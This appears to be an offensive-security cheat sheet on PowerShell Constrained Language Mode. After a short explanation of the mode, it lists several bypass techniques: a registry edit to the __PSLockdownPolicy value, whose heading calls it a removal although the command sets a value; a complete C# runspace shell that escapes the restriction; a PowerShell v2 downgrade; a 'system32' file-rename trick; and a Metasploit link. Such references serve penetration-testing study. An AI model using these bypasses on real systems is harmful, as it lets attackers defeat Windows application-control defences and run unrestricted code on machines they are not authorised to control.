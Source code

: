 # CLM

<details>

<summary>What is it? + How to enable?</summary>

* Constrained Language Mode is a PowerShell security restriction enforced by Windows Defender Application Control (WDAC) or Device Guard.&#x20;
* It limits access to certain commands and features, reducing the risk of malicious script execution.

- Run the following command on admin powershell.exe:

```powershell
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

</details>

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](../.gitbook/assets/image.png)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using Powershell Downgrade</summary>

```bash
powershell.exe -version 2
```

* Powershell v2 is disabled by default on Win10/11 OS

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using System32</summary>

* From [https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass)
* Path from where your script is being executed needs to contain the string `system32`

```
PS>cat .\test.ps1
$ExecutionContext.SessionState.LanguageMode

PS>.\test.ps1; mv .\test.ps1 system32.ps1; .\system32.ps1
ConstrainedLanguage
FullLanguage
```



</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

</details>
